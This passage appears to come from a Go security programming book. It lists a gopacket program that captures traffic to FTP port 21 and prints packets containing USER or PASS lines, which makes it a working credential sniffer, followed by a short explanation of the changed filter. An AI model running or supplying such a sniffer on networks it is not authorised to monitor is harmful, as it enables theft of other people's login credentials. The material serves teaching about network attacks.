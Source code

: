 ```go
    snaplen  = int32(1600)
    promisc  = false
    timeout  = pcap.BlockForever
 ❶ filter   = "tcp and dst port 21"
    devFound = false
)

func main() {
    devices, err := pcap.FindAllDevs()
    if err != nil {
        log.Panicln(err)
    }

    for _, device := range devices {
        if device.Name == iface {
            devFound = true
        }
    }
    if !devFound {
        log.Panicf("Device named '%s' does not exist\n", iface)
    }

    handle, err := pcap.OpenLive(iface, snaplen, promisc, timeout)
    if err != nil {
        log.Panicln(err)
    }
    defer handle.Close()

    if err := handle.SetBPFFilter(filter); err != nil {
        log.Panicln(err)
    }

    source := gopacket.NewPacketSource(handle, handle.LinkType())
    for packet := range source.Packets() {
     ❷ appLayer := packet.ApplicationLayer()
        if appLayer == nil {
            continue
        }  
     ❸ payload := appLayer.Payload()
     ❹ if bytes.Contains(payload, []byte("USER")) {
            fmt.Print(string(payload))
        } else if bytes.Contains(payload, []byte("PASS")) {
            fmt.Print(string(payload))
        }  
    }
}
```

The changes you made encompass only about 10 lines of code. First, you change your BPF filter to capture only traffic 
destined for port 21 (the port commonly used for FTP traffic) ❶. The rest of the code remains the same until you 
process the packets.
